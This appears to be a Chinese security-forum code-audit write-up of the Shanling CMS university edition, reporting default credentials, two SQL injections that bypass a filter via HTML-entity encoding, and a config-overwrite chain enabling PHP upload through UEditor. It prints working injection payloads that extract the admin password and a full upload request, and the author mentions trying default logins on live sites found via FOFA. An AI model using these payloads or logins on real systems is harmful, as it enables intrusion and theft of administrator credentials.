

# 奇安信攻防社区-闪灵cms高校版代码审计

### 闪灵cms高校版代码审计

闪灵cms代码审计

# 简介

闪灵cms高校版是一款php开发的智能企业建站系统，该系统能让用户在短时间内迅速架设属于自己的企业网站。建站系统易学易懂，用户只需会上网、不需学习编程及任何语言，只要使用该系统平台，即可在线直接完成建站所有工作。

# 漏洞1：默认密码

在安装系统完成之后，到数据库就可以看到有几个默认系统用户密码（注意：这里不是管理员用户，只是普通用户，并无进入网站管理后台的权限）。


随便找一个密码去解密比如：7FEF6171469E80D32C0559F88B377245

  
就得到了默认账户admin/admin888的登陆口令，现在去登录系统的用户后台。  
[http://localhost/member/member\_login.php](http://localhost/member/member_login.php)

  
ps: 我去fofa随便找了几个网站试，成功率还是挺高的，不过得开用户登录后台功能，默认情况下是开启的。一般开启用户登录后台基本都会有这么几个默认用户。

# 漏洞2：用户后台update注入

路径：member/member\_edit.php  
可以看到以下代码，参数都是直接从post请求中获取,只是经过了htmlspecialchars过滤，然后直接拼接到sql语句当中，所以这段代码是存在注入的。


验证：  
用navicat开启mysql日志，然后根据日志文件查看sql语句执行情况。

```mysql
set global general_log=ON;
show variables LIKE '%general_log%';
```

然后打上单引号看看是否效果如我们预想，发现其实代码还是有做防护的。


防护代码如下：  
路径：function/function.php  
如下图可见，POST请求经过了正则表达式的检测，如果匹配到敏感字符将会die掉程序终止执行。


但是在member/member\_edit.php代码22行, 参数又经过了RemoveXSS函数的过滤。

```php
$M_info=RemoveXSS($_POST["M_info"]);
```

跟进这个函数可以看到这么一段代码，具体而言，这段代码是在处理一个字符串 `$val` 中出现的 HTML 实体编码，将其转换为对应的字符。具体实现方式是通过正则表达式匹配实体编码，并使用 PHP 内置函数 `ord()` 将匹配到的字符转换成 ASCII 码。然后，使用 `dechex()` 将 ASCII 码转换成 16 进制表示。最后，使用 `preg_replace()` 函数将匹配到的实体编码替换成对应的字符。


那么就可以使用html实体编码sql注入payload用来绕过检测。  
比如'的html实体编码为&#39，然后url编码一遍可以看到执行语句的日志。可以发现成功的绕过了检测，并且进入数据库的字符也被解码了。  
  
直接上payload，注入获取管理员密码  
`%26%2339,M_info=(%26%23115elect a_pwd from sl_admin),M_add=%26%2339`  


# 漏洞3：论坛评论insert注入

路径：bbs/item.php  
和上个漏洞点形成原因一样只是换了个注入方式。


payload:  
`aaaaa%26%2339,%26%23392023-01-01%26%2339,7,1,1),(%26%2339aaa%26%2339,(%26%23115elect a_pwd from sl_admin), %26%23391010-02-02%26%2339,7,1,1) %23`


# 漏洞4：管理后台文件上传

这个是一个组合漏洞，因为系统后台虽然可以设置上传文件格式，但是不允许设置php这些格式。但是好在过滤是以黑名单的方式，然后该系统又有ue编辑器，那么就可以上传一个json文件将其原有的config.json文件覆盖掉，最后通过ue编辑器上传webshell。


首先在config.json文件处加上允许上传php

  
然后到后台修改一下安全配置，设置允许上传json格式的文件


然后把刚刚修改好的文件上传覆盖掉原有的config.json文件  


最后去ue编辑器发个包就大功告成了。

```http
POST /ueditor/php/controller.php?action=uploadfile HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryG33bK0VpwNWgBEHF
Connection: close

------WebKitFormBoundaryG33bK0VpwNWgBEHF
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: application/octet-stream

<? phpinfo(); ?>
------WebKitFormBoundaryG33bK0VpwNWgBEHF--
```


